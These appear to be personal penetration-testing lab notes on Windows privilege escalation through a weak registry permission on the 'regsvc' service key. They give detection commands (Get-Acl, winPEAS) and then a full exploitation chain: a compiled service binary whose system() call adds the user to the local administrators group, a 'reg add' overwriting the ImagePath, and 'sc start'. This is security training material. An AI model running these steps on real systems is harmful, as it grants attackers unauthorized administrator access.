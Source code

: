  **Detection**

Open PowerShell prompt and type: 

```command prompt - windows
powershell -ep bypass
```

```powershell - windows
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  
```

Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

![[Pasted image 20220207105736.png]]

```
.\winPEASx64.exe servicesinfo
```

![[Pasted image 20220609133644.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Copy the generated file x.exe, to the Windows VM.

[[4._File Transfers]]

Place x.exe in `C:\Temp`.

Open command prompt at type: 

```command prompt - kali
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
```

In the command prompt type: 

```command prompt - kali
sc start regsvc
```

```command prompt - kali
sc start regsvc
```

[[___.Misc Commands#Restart host]]

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```

